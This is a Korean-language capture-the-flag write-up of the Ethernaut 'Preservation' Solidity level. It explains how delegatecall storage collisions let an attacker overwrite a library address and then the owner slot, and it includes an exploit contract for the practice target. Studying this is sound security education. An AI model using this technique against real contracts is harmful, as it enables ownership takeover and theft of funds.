

## 문제
### 지문
This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.
The goal of this level is for you to claim ownership of the instance you are given.
Things that might help
Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
Understanding what it means for delegatecall to be context-preserving.
Understanding how storage variables are stored and accessed.
Understanding how casting works between different data types.
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```
## 배경지식
<hr />
`delegatecall`은 다른 컨트랙트의 코드를 실행하지만, 실행 컨텍스트는 호출한 컨트랙트의 것을 그대로 사용한다. 여기서 컨텍스트란 `storage`, `msg.sender`, `msg.value`, `address(this)` 같은 실행 환경을 말한다.
즉 `A.delegatecall(B의 함수)`를 하면 코드는 `B`의 함수가 실행되지만, 상태 변수 읽기와 쓰기는 `A`의 storage에 적용된다. 이 문제에서는 이 성질 때문에 라이브러리의 `storedTime`을 바꾸는 코드가 실제로는 `Preservation`의 slot 0을 바꾸게 된다.
<hr />
EVM storage는 변수명을 보고 값을 저장하는 구조가 아니라 slot 번호를 기준으로 값을 저장한다. 단순 상태 변수는 선언 순서대로 slot 0, slot 1, slot 2에 배치된다.
`Preservation`의 storage 배치는 다음과 같다.
```solidity
// Preservation
slot 0: address timeZone1Library
slot 1: address timeZone2Library
slot 2: address owner
slot 3: uint256 storedTime
```
반면 `LibraryContract`는 상태 변수가 하나뿐이다.
```solidity
// LibraryContract
slot 0: uint256 storedTime
```
`LibraryContract.setTime()`을 일반 호출하면 `LibraryContract`의 slot 0이 바뀐다. 하지만 `Preservation`이 `delegatecall`로 호출하면 같은 코드가 `Preservation`의 storage 위에서 실행된다. 그 결과 `Preservation`의 slot 0, 즉 `timeZone1Library`가 바뀐다. 같은 slot 번호를 서로 다른 의미로 해석하면서 생기는 문제가 storage collision이다.
<hr />
`setFirstTime`은 인자로 `uint256`을 받지만 우리가 넣고 싶은 값은 공격 컨트랙트의 `address`다. 주소는 160비트 값이므로 `uint160`을 거쳐 `uint256`으로 올려서 전달할 수 있다.
```solidity
uint256(uint160(address(attack)))
```
공격 컨트랙트 주소를 `uint256` 값으로 변환해서 `setFirstTime`에 넘기면 된다. 이 숫자가 slot 0에 쓰이면 하위 160비트가 주소로 해석된다.
## 문제 코드 분석
<hr />
먼저 `delegatecall` 호출 지점을 보자.
```solidity
bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

function setFirstTime(uint256 _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
}

function setSecondTime(uint256 _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
}
```
`setFirstTime`은 `timeZone1Library` 주소로 `setTime(uint256)` 호출 데이터를 만들어 `delegatecall`한다. 반환값을 확인하지 않기 때문에 호출 성공 여부는 문제 풀이에 직접적인 제약이 되지 않는다.
호출 대상 주소는 상태 변수 `timeZone1Library`에 저장되어 있다. 이 주소를 공격 컨트랙트 주소로 바꿀 수 있으면, 다음 `setFirstTime`은 원래 라이브러리가 아니라 공격 컨트랙트의 `setTime`을 `delegatecall`하게 된다.
<hr />
라이브러리 코드가 실제로 쓰는 slot도 봐야 한다.
```solidity
contract LibraryContract {
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```
`LibraryContract` 기준으로 `storedTime`은 slot 0이다. 그래서 `storedTime = _time`은 slot 0에 `_time`을 쓰는 동작이다.
그런데 이 코드는 `Preservation`의 `delegatecall`로 실행된다. 따라서 실제로는 `LibraryContract`의 slot 0이 아니라 `Preservation`의 slot 0에 `_time`이 저장된다. `Preservation`의 slot 0은 `timeZone1Library`이므로, 첫 번째 호출로 `timeZone1Library`를 공격 컨트랙트 주소로 바꿀 수 있다.
<hr />
공격 컨트랙트도 `Preservation`과 같은 위치에 `owner`가 오도록 storage layout을 맞춰야 한다.
```solidity
contract Attack {
    address public s0;
    address public s1;
    address public owner;

    function setTime(uint256 _time) public {
        owner = msg.sender;
    }
}
```
`Attack.owner`는 세 번째 상태 변수이므로 slot 2에 있다. 이 코드를 `Preservation`이 `delegatecall`하면 slot 2 쓰기는 `Preservation.owner` 쓰기가 된다.
공격 흐름은 두 단계다. 먼저 기존 라이브러리의 `setTime`으로 slot 0을 덮어 `timeZone1Library`를 공격 컨트랙트로 바꾼다. 그 다음 다시 `setFirstTime`을 호출해서 공격 컨트랙트의 `setTime`을 실행시키면 slot 2의 `owner`가 `msg.sender`로 바뀐다.
## 풀이
처음에는 `timeZone1Library` 주소를 직접 바꿀 방법이 없어 보인다. 하지만 `setFirstTime` 자체가 `delegatecall`로 라이브러리의 slot 0 쓰기 코드를 가져온다. 그래서 첫 번째 `setFirstTime` 호출이 곧 `timeZone1Library`를 덮어쓰는 진입점이 된다.
공격 컨트랙트를 배포한 뒤, 공격 컨트랙트 주소를 `uint256`으로 변환해서 `setFirstTime`에 넣는다. 그러면 `Preservation`의 slot 0이 공격 컨트랙트 주소로 바뀐다. 이후 한 번 더 `setFirstTime`을 호출하면 이제 `timeZone1Library`가 공격 컨트랙트를 가리키므로, 공격 컨트랙트의 `setTime`이 `Preservation`의 storage 위에서 실행된다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    address public s0;
    address public s1;
    address public owner;

    function setTime(uint256 _time) public {
        owner = msg.sender;
    }
}
```

